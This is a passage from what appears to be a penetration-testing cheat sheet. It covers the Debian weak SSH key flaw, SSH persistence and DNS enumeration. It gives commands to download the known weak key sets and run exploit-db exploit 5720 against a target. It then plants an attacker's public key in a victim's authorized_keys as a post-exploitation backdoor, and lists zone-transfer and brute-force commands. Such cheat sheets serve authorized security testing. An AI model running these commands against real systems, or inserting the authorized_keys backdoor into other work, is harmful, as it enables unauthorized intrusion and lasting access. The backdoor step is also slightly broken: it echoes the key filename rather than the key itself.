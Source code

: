 ```
All SSL and SSH keys generated on Debian-based systems (Ubuntu, Kubuntu, etc) between September 2006 and May 13th, 2008 may be affected.

https://www.exploit-db.com/exploits/5720

wget https://github.com/g0tmi1k/debian-ssh/raw/master/common_keys/debian_ssh_rsa_2048_x86.tar.bz2 https://github.com/g0tmi1k/debian-ssh/raw/master/common_keys/debian_ssh_dsa_1024_x86.tar.bz2

bunzip2 debian_ssh_rsa_2048_x86.tar.bz2 debian_ssh_dsa_1024_x86.tar.bz2
tar -xvf debian_ssh_rsa_2048_x86.tar
tar -xvf debian_ssh_dsa_1024_x86.tar

python 5720 rsa/2048 <IP> <USER> <PORT> <THREADS>
python 5720 dsa/1024 <IP> <USER> <PORT> <THREADS>
```

### SSH backdoor - post exploitation

```
# Attacker
ssh-keygen -f <FILENAME>
chmod 600 <FILENAME>
cat <FILENAME>.pub -> copy

# Victim
echo <FILENAME>.pub >> <PATH>/.ssh/authorized_keys

# Connect
ssh -i <FILENAME> <USER>@<IP>
```

------

## DNS - 53

```
dnsenum <DOMAIN>
```

```
dnsrecon -d <DOMAIN>
```

### Zone transfert

```
dnsrecon -d <DOMAIN> -a
dig axfr <DOMAIN> @ns1.test.com
```

### DNS brute force

```
https://github.com/blark/aiodnsbrute
```
